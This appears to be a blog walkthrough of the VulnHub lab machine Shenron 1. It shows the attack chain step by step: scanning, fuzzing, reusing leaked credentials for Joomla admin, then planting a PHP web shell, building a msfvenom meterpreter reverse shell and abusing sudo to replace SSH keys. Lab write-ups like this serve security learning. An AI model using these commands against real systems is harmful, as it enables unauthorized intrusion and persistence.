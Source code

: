 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-08-30 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, pentest]   
author: christ
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
*Nmap<br>
*Zaproxy<br>
*Netcat<br>
*Metasploit<br>
### Environment Set up
To be succ<br>

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform this using the commands below:<br>
Current subnet identification: ```bash ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```
![Service Scan]()

We can see that the target is running both an SSH server and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache
![Wep App Index Page]()

In the real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing here using **ffuf** it can be done using your tool of preference.
Command used: ```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```
![Directory Fuzzing]()

The fuzzing process can uncover two interesting directories which are *test* and *joomla*. The directory joomla already gives us a hint that the web application may be running the well-known CMS Joomla. Let's browse these directories chronologically as the appeared during our fuzzing.
Browsing to the *test* directory we notice that directory listing is enabled which is a vulnerability in itself. We can note this vulnerability in our *Findings* folder. 
![Directory Listing]()
We can also see a file having an interesting name i.e. *password*, accessing the file from our command line reveals to us a pair of credentials belonging to a certain admin user.
![File Accessed]()

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember that we uncover credentials hidden in the comments of the password file so, let's try this credential against the Joomla instance to check if they are valid.
*NB: Login to the administrative interface on Joomla is done by default in the **administrator** directory.*
![Joomla Login]()

## Exploitation
We can see that we successfully login as the admin. We can now attempt to add a PHP shell to one PHP file in an unused template. Here, we will choose the protostar template and add our basic PHP shell ```system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name such as a hash for the GET parameter value. Anyone can access that file hence if a common name is used attackers may bruteforce it and also use to to establish their foothold in your client environtment.*
![Template Modification]()
After modifying our template we can now execute commands on our target. ```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```
![RCE Test]()

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```
![Payload Crafting]()
Now after crafting our payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server]()

We then use *wget* on our target to download to download the payload to the */tmp* directory.
![Download Operation]()
Before executing our payload we need to configure our listener in Metasploit.
![Metasploit Set Up]()
After starting our listener we can now give execution permission to our payload and execute it.
![Payload Execution]()
Going back to the listener, we can see that we caught a shell.
![Catching Shell]()
After obtaining a shell as the web user it's a good habit to search for the *web.config* file in the web root directory which may contain credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File]()
![DB User Creds]()
We see that the credentials belong to the user **jenny** who is also a user on the target machine so let's try to authenticate as the user jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth]()

We have identified that the user is susceptible to vulnerabilities arising from password reuse. With this password, we can directly try to identify if the user has any sudo rights.
![Sudo Right]()

Great we see that the user Jenny can perform copy operations by using Shenron identity. Since we observed an SSH service running during our service enumeration let's try to replace the SSH key of Shenron by using the privileges offer to us by the sudo command.
We can generate a key pair \(private, public\) on our attack host and upload the public key using the same method used above or upload it using our powerful meterpreter.
![SSH Key Gen]()
After uploading the public key we can now replace the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo rights and then afterward attempt using the private key to login as Shenron
![SSH Key Replace]()
![SSH Login]()








